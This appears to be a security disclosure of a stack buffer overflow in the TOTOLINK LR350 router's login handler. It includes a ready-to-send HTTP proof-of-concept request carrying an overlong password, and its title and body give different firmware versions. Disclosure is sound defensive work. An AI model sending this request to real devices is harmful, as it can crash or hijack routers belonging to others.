 # TOTOLINK LR350 V9.3.5u.6698_B20230810 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

`V3 ` retrieves the value from the ` password ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240510235346724](image-20240510235346724.png)

As shown in the two images below, in the function`urldecode` , the processed (`password`) is written to a buffer  located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240510235537777](image-20240510235537777.png)

![image-20240510235622632](./image-20240510235622632.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.147.140
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.147.140
Connection: close
Referer: http://192.168.147.140/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20240511000241904](./image-20240511000241904.png)